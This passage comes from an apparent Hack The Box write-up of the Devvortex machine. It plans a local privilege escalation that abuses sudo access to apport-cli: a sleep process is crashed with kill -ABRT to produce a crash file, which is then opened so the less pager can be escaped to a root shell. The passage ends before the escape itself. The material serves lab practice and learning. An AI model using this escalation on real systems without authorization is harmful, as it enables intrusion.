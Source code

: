 This is very similar to the vulnerability I exploited in
[Sau](/htb-sau.md#exploit-less) where `systemctl` opened in
`less` and I could break out.

#### Strategy

To exploit this vulnerability, I'll need to give `apport-cli` crash data
to view, and then when it shows the report in `less`, break out to a
shell. I'll show three different ways to generate crash data:

    flowchart TD;
        A[sudo apport-cli]-->B(<a href='#crash-sleep'>Start and crash\na program with\nkill -ABRT</a>);
        B-->C(<a href='#view-and-escape'>View data in apportcli</a>);
        C-->D[Break out to root shell];
        A-->E(<a href='#with-apport-cli'>Generate data\nwith apport-cli</a>);
        E-->C;
        A-->F(<a href='#fake-data'>Create fake\ndata);
        F-->C;

    linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;

#### Crash sleep

To exploit this, I'll need something legit to read. The easiest way is
to just generate a dump file. I'll start program running in the
background:



    logan@devvortex:~$ sleep 20 &
    [1] 7650



`&` tells the OS to run the program in the background, and return focus
to the shell. 7650 is the process id (PID) for that process. I'll send a
signal to that process to crash it with `kill -ABRT`:



    logan@devvortex:~$ kill -ABRT 7650
    logan@devvortex:~$ 
    [1]+  Aborted                 (core dumped) sleep 20



The command returns (after sending the signal) and prints the next
prompt, and after a slight delay, when the `sleep` process dies, it
prints to the terminal. Now there's a dump file in `/var/crash`:



    logan@devvortex:~$ ls /var/crash/
    _usr_bin_sleep.1000.crash



Now I can run `apport-cli` pointing to this file:



    logan@devvortex:~$ sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
    *** Send problem report to the developers?
    After the problem report has been sent, please fill out the form in the
    automatically opened web browser.
